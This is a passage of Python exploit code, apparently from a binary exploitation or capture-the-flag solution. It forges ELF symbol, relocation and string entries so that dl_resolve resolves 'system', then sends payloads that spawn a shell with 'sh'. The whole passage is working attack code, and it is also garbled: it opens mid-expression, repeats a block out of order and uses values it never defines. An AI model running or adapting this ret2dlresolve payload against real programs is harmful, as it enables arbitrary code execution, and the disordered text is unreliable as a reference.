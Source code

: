 ```python
        + st_info \
        + st_other \
        + st_shndx \
        + st_value \
        + st_size

Rel_addr = writable + 0x18
reloc_arg = int((Rel_addr - jmprel) / 24)

print(f"str_idx: {str_idx}")
print(f"rel_idx: {(Rel_addr - jmprel) / 24}")
print(f"sym_idx: {(Sym_addr - symtab) / 0x18}")

r_offset = p64(0x404018)
r_info = p64((sym_idx << 32) | 0x7)
Rel_struct = r_offset + r_info

dlresolve = 0x401020
dlresolve_forge = Sym_struct + Rel_struct + Str_struct

payload = b"\x00"
payload += p64(0x404600)
payload += p64(dlresolve)
payload += p64(reloc_arg)
payload += p64(0x401142)
payload += dlresolve_forge

p.sendline(payload)

payload = b"\x00"
payload += p64(0x404f30)
payload += p64(0x401142)
p.sendline(b"sh\x00\x00")
p.sendline(payload)

Str_addr = writable + 0x18 + 0x10
str_idx = Str_addr - strtab
Str_struct = b"system\x00"

Sym_addr = writable
sym_idx = int((Sym_addr - symtab) / 0x18)
st_name = p32(str_idx)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
Sym_struct = st_name \
        + st_info \
        + st_other \
        + st_shndx \
        + st_value \
        + st_size

Rel_addr = writable + 0x18
reloc_arg = int((Rel_addr - jmprel) / 24)

print(f"str_idx: {str_idx}")
print(f"rel_idx: {(Rel_addr - jmprel) / 24}")
print(f"sym_idx: {(Sym_addr - symtab) / 0x18}")

r_offset = p64(0x404018)
r_info = p64((sym_idx << 32) | 0x7)
```
